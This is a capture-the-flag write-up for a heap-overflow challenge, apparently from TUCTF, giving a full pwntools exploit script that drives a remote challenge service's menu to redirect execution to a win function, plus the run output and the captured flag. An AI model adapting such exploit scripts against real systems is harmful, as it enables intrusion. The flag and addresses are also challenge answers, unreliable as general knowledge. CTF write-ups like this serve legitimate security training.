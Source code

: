 ### Solved by superkojiman

This was supposed to be a fixed version of woO2, I think. Maybe I solved the first one the uninteded way, but I was able to solve this one in the exact same way. The only difference was the address of 1337Hax0r() was different. So here's the updated exploit:

```
#!/usr/bin/env python
from pwn import *

flag = p64(0x004008dd)

r = remote("104.196.15.126", 15050)

r.recvuntil("choice:")
r.sendline("2")
r.recvuntil("Caspian Tiger")
r.sendline("3")
r.recvuntil(":")
r.sendline(flag)

r.recvuntil("choice:")
r.sendline("2")
r.recvuntil("Caspian Tiger")
r.sendline("4")
r.recvuntil(":")
r.sendline("bbbbbb")


r.recvuntil("choice:")
r.sendline("4919")

print r.recvall()
```

And here's the flag:

```
# ./sploit.py
[+] Opening connection to 104.196.15.126 on port 15050: Done
[+] Recieving all data: Done (25B)
[*] Closed connection to 104.196.15.126 port 15050

TUCTF{H3ap_O_Fl0w_ftw}
```
